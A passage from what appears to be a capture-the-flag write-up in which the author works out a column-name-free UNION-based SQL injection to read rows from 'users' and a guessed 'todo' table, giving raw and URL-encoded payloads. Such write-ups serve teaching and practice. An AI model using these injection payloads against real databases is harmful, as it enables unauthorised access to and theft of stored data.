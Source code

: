 ```sql
union select * from (select 1)a join (select 2)b join (select f.3 from (select * from (select 1)z join (select 2)y join (select 3)x join (select 4)w join (select 5)v join (select 6)u join (select 7)t union select * from users limit 1 offset 2)f)c
```

And eventually, given what I discovered...this actually worked. It gave me information from the `users` table without once referencing a column name. It is ugly as sin, but nobody ever said hacking was pretty:

`select id,name,1 from users where id=-1 union select * from (select 1)a join (select 2)b join (select f.3 from (select * from (select 1)z join (select 2)y join (select 3)x join (select 4)w join (select 5)v join (select 6)u
 join(select 7)t union select * from users limit 1 offset 2)f)c;`

This is nice if I wanted to get info from the `users` table, but I suspected there was a `todo` table based on the following description of the challenge:

![Todo](img/obj12-4/img12.png)

So let's make a new table called `todo` with some arbitrary column names, like an `id` column and another column named `flag`.
 
 ```sql
 CREATE TABLE `todo` (
  `id` int(50) NOT NULL AUTO_INCREMENT,
  `flag` varchar(255) DEFAULT NULL,
   PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=10 DEFAULT CHARSET=latin1;
```

And with a fair amount of fiddling and general messing around...

## THIS. ACTUALLY. WORKED.
`union select * from (select 1)a join (select 2)b join (select f.2 from (select * from (select 1)z join (select 2)y join (select 3)x union select * from todo limit 1 offset 1)f)c join (select 4)d join (select 5)e join (select 6)f join (select 7)g`

Or rather:
`%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%20f.2%20from%20(select%20*%20from%20(select%201)z%20join%20(select%202)y%20join%20(select%203)x%20union%20select%20*%20from%20todo%20limit%201%20offset%201)f)c%20join%20(select%204)d%20join%20(select%205)e%20join%20(select%206)f%20join%20(select%207)g%20--%20-`
